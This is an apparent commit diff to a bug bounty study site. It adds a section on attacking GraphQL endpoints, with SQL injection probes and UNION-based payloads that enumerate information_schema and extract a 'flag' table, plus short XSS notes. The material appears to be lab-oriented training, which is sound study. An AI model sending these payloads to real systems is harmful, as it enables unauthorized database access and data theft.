

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/attacking-graphql.md, in a window 1280 px wide and 1400 px high, scrolled down 4576 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update graphql page

````diff
--- a/docs/bug-bounty-guide/attacking-graphql.md
+++ b/docs/bug-bounty-guide/attacking-graphql.md
@@ -2,7 +2,7 @@
 
 **[GraphQL Learn](https://graphql.org/learn/)**
 
-## Basic Example
+## Basic Examples
 
 **GraphQL Request**
 ```json
@@ -171,3 +171,49 @@ Adjust query to test if previously determined data fields are accessible
   }
 }
 ```
+
+## Injection Attacks
+
+### SQL Injection
+
+- Use introspection to identify what queries requiring arguments the backend supports
+- Sending queries without arguments to see if error message is returned
+- Try basic SQLi in the argument:
+```json
+{
+  user(username: "test' -- -") {
+    username
+    password
+  }
+}
+```
+- or:
+```json
+{
+  user(username: "test'") {
+    username
+    password
+  }
+}
+```
+- use results of introspection query to craft UNION-based SQLi:
+![introspection query results](../images/introspection_results.png)
+```json
+{
+  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
+    username
+  }
+}
+```
+```json
+{"query":"{  user(username: \"student' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6 FROM information_schema.columns WHERE table_name='flag'-- -\") {    username  }}"}
+```
+```json
+{"query":"{  user(username: \"student' UNION SELECT 1,2,flag,4,5,6 FROM flag-- -\") {    username  }}"}
+```
+
+### Cross-Site Scripting (XSS)
+
+XSS vulnerabilities can occur if:
+- GraphQL responses are inserted into the HTML page without proper sanitization
+- if invalid arguments are reflected in error messages
````
Also changed, not shown: docs/images/introspection_results.png (added).
